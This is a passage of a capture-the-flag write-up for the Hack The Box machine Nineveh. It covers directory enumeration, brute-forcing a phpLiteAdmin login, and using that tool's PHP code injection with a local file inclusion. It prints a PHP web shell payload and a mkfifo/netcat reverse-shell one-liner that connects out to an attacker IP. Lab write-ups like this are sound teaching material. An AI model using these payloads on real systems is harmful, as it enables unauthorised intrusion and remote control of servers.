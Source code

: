 ```
So we know there is a ``HTTPS Port (443)`` is open so lets see whats there

### Dirsearch Results

>https://nineveh.htb/

```
 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /root/hacking-tools/dirsearch/logs/errors-20-01-24_19-49-47.log

Target: https://10.10.10.43/

[19:49:49] Starting: 
[19:49:50] 200 -   49B  - /
[19:49:51] 403 -  291B  - /.hta
[19:50:27] 301 -  309B  - /db  ->  https://10.10.10.43/db/
[19:50:52] 200 -   49B  - /index.html
[19:51:41] 403 -  300B  - /server-status
```
There is a login page on ``/db``
Found ``phpLiteAdmin v1.9`` , as usual lets search for exploits

![Untitled](/img/htb-nineveh/10.png)

There is an Remote PHP Code Injection
>https://www.exploit-db.com/exploits/24044

For that we need to login first , I tried with ``admin`` ( Which is default creds of phpLiteAdmin) But it doesn't worked!!
So Lets bruteforce again using ``hydra``
Same as before Intercept the login using burp.[br/](br/)
![Untitled](/img/htb-nineveh/11.png)

Since the login page doesn't have any username so we dont need to worry about ``user``
![Untitled](/img/htb-nineveh/12-1.png)[br/](br/)
![Untitled](/img/htb-nineveh/12.png)[br/](br/)
So the password is ``password123``

And Im in
![Untitled](/img/htb-nineveh/13.png)

According to the exploit we need to first create a database with the extension of ``.php`` so I created ``ninevehNotes.php``
![Untitled](/img/htb-nineveh/14.png)

From there we need to create a table where we need to inject our payload.
![Untitled](/img/htb-nineveh/15.png)
``` [?php echo system($_REQUEST["cmd"]); ?](?php echo system($_REQUEST["cmd"]); ?)  ```

Once its created and we already know there is a LFI so I tried to execute there.
![Untitled](/img/htb-nineveh/16.png)[br/](br/)
It Worked and Why I named it as ``ninevehNotes.php`` is because we know there is a file called ``ninevehNotes.txt``.

Now Its time to get reverse shell, I send it to burp and used reverse shell code.

``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```[br/](br/)
![Untitled](/img/htb-nineveh/17.png)

And I can't read user flag.

```